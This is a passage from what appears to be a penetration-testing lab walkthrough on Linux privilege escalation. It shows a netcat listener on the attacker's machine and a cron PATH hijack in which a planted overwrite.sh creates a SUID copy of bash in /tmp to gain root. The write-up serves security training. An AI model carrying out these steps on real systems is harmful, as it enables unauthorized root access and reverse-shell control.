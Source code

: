 **Kali**

```
nc -nvlp 4444
```

<figure><img src="../../.gitbook/assets/image (14) (1) (2) (2).png" alt=""><figcaption></figcaption></figure>







## Cron Jobs - PATH Environment Variable

View the contents of the system-wide crontab

**Victim**

```
cat /etc/crontab
```

Note that the PATH variable starts with /home/user which is our user's home directory. Create a file called overwrite.sh in your home directory with the following contents

<figure><img src="../../.gitbook/assets/image (29) (3).png" alt=""><figcaption></figcaption></figure>

#### overwrite.sh

```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
